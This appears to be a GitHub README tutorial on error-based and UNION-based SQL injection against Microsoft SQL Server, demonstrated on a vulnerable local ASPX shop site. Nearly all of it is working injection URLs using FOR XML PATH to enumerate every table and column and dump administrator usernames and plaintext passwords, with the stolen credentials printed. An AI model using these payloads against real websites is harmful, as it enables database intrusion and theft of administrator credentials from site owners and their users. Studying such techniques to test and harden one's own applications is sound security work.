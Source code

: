 # XML-PATH-Injector

Now let's get started the XML Path Injection in MSSQL server, MsSQL it's Microsoft SQL Server in this post i will use error based injection with malicious interogation for manipulation database and extract administrator credentials. I will use a vulnerable aspx app in localhost for this example. I do not support these illegal activities !

 http://localhost/Product.aspx?Id=13 and 1=db_name()--

Using this simple query we will see the name of the database.

![Screenshot from 2024-01-25 10-31-38](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/d42f8d12-0fd2-41e6-a6db-3c795ab06f89)

Now the database name is "chemtraders" 
Next step i want to see the DB and OS version for this i will use this query:

http://localhost/Product.aspx?Id=13 and @@version=1--

and output is:

![Screenshot from 2024-01-25 10-34-56](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/94adade4-c58f-49d4-99df-0dcf67fe0c66)

We see "Microsoft SQL Server 2012 ( SP1 )

Now let's get extract Tables name and Columns from DB with one query:

http://localhost/Product.aspx?Id=13 and 1=(select+table_name%2b'::'%2bcolumn_name as t+from+information_schema.columns FOR XML PATH(''))--

and output is:

![Screenshot from 2024-01-25 10-54-54](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/3fb8189d-d4c9-4e23-b7b4-f692acc6eb26)

Ok now are interested:

AdminLogin ( Table )
UserName ( Column )
Password ( Column )

Let's get dump from this Columns ( UserName and Password ):

http://localhost/Product.aspx?Id=13 and 1=(select+Password,username+from+AdminLogin FOR XML PATH(''))--

Output is:

![Screenshot from 2024-01-25 11-01-25](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/7704a537-2f76-4bcf-a1e1-886dd15186d4)


Username: admcheter
Password: bweb@chem#123$tre ( this is plaintext )

This query it's in Error Based but it is possible and with Union Select

Let's see how we do this


http://localhost/Category-Product.aspx?id=-6' union select 1,(select table_name%2b'::'%2bcolumn_name as t from information_schema.columns FOR XML PATH('')),3-- -

![Screenshot from 2024-01-25 11-11-32](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/41178b9a-951e-4bee-b8e4-dace0a350e9b)

Now we see UserInfo, username and Password.

For this situation i want to extract Administration credential form this columns

http://localhost/Category-Product.aspx?id=-6&' union select 1,(select User_Name,Password from UserInfo FOR XML PATH('')),3-- -

![Screenshot from 2024-01-25 11-16-25](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/abf6e991-823d-42c7-a440-4c6b81441939)

Username: Admin
Password: simplifi@123 ( plaintext )

We are done for tested my MsSQL db.







